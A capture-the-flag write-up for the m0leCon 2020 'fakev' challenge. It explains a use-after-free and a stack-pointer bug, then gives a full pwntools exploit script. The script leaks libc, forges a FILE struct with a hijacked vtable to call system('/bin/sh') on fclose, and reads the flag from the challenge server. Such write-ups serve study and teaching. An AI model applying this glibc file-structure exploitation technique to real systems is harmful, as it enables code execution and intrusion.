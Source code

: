 # m0leCon CTF 2020 Teaser

## fakev

This challenge was solved by [@korniltsev](https://ctftime.org/user/54962), [@mostobriv](https://ctftime.org/user/25913), [@n00bie](https://ctftime.org/user/50936) and me (on behalf of [Corrupted Pwnis](https://ctftime.org/team/87386)).

Writeup will not be super detailed, but rather brief overview of the solution.

`fakev` service allows us to open up to 9 files which are organized into a linked list of the following structure:

```cpp
struct node_t {
    FILE *file;
    struct node_t *next;
};
```

Where `file` is a pointer into the file structure of the corresponding file. Also, we're able to close and read content of these files (write isn't implemented).

Basically, there are 2 vulns. The first one is UAF in reading file content (we can read the file content of the already closed file). The second one is placed inside of `add` function. When we create 9th file, service allocates new `struct node_t` for this file, but doesn't use it. Instead, it assigns stack address into `next` field of the previously opened file:

```cpp
  new_node = (node_t *)malloc(0x10uLL);
  if ( !new_node )
  {
    perror("Couldn't alloc");
    exit(1);
  }
  node->next = (node_t *)&stack;                // set next to stack
  node->next->file = (_QWORD *)fp;
  node->next->next = 0LL;
```

If we can control stack value, then we're able to change `next` into controlled `struct node_t` with controlled `file` field. In `get_int` function input that user supplies is then saved into the global variable (address of this variable is known because of disabled `PIE`). 

Hence, attack vector is the next:

1. Leak libc address (will be explained below)
2. Change `next` field of the last opened file with the controlled one (already explained)
3. Point `file` into global variable which is controlled (already explained)
4. Call `fclose` on the `fake file` and get the shell (will be explained below).

The rest we need to do is to leak libc address and hijack the control flow when `fclose` is called on the fake file struct. Libc leaking can be done by filling up `tcache[0xf0]` and then using the first vuln (UAF in reading) to read content of the freed unsorted bin chunk.

Controlling the program flow after `fclose` is called can be done by forging the vtable of the fake file struct. Of course, we can't just point it to any fake vtable because of `_IO_vtable_check`. Fake vtable should be placed inside of libc vtable section. After searching for the right function, we're faced with `_IO_str_overflow`. Just satisfy the requirements and call arbitrary code with controlled `rdi`.

```python
from pwn import *


def open_file(io, idx, fake_idx=None):
    io.sendlineafter(':', '1')
    if fake_idx is not None:
        io.sendafter(':', fake_idx)
    else:
        io.sendlineafter(':', str(idx))


def read_content(io, idx):
    io.sendlineafter(':', '2')
    io.sendlineafter(':', str(idx))


def close_file(io):
    io.sendlineafter(':', '4')


def main():
    libc = ELF('./libc.so.6')
    io = remote('challs.m0lecon.it', 9013)

    for idx in range(1, 9):
        open_file(io, idx)
    for idx in range(8):
        close_file(io)
    log.info('tcache[0xf0] is filled up')
    
    read_content(io, 1)
    libc_arena = u64(io.recvn(17)[9:])
    libc_base  = libc_arena - 0x3ebca0
    
    log.success('libc_arena @ ' + hex(libc_arena))
    log.success('libc_base  @ ' + hex(libc_base))

    for idx in range(1, 9):
        open_file(io, idx)
    open_file(io, 1)

    vtable  = libc_base + 0x3e82a0
    rdi     = libc_base + next(libc.search('/bin/sh'))
    system  = libc_base + libc.symbols['system']
    
    fake_file = ''
    fake_file += p64(0x2000)        # flags
    fake_file += p64(0)             # _IO_read_ptr
    fake_file += p64(0)             # _IO_read_end
    fake_file += p64(0)             # _IO_read_base
    fake_file += p64(0)             # _IO_write_base
    fake_file += p64((rdi-100)/2)   # _IO_write_ptr
    fake_file += p64(0)             # _IO_write_end
    fake_file += p64(0)             # _IO_buf_base
    fake_file += p64((rdi-100)/2)   # _IO_buf_end
    fake_file += p64(0)             # _IO_save_base
    fake_file += p64(0)             # _IO_backup_base
    fake_file += p64(0)             # _IO_save_end
    fake_file += p64(0)             # _markers
    fake_file += p64(0)             # _chain
    fake_file += p64(0)             # _fileno
    fake_file += '\xff'*8
    fake_file += p64(0)
    fake_file += p64(0x602110)

    fake_file += '\xff'*8
    fake_file += p64(0)
    fake_file += p64(0x602108) # file
    fake_file += p64(0)        # next
    fake_file += p64(0)
    fake_file += p64(0)
    fake_file += p64(0)
    fake_file += p64(0)
    fake_file += p64(0)
    fake_file += p64(vtable-0x3a8-0x88) # vtable
    fake_file += p64(system)            # alloc_buffer

    payload = ''.join([
        '4'.ljust(8, '\x00'),
        fake_file
    ]).ljust(0x100, '\x00')
    io.send(payload)
    log.success('embeded fake file struct into linked list')
    log.info('triggering fclose on fake file struct...')
    
    io.sendline('cat flag.txt')

    io.interactive()


if __name__ == '__main__':
    main()
```

> ptm{pl4y1ng_w17h_5t4cks_4nd_f1l3s_f0r_fun_4nd_pr0f}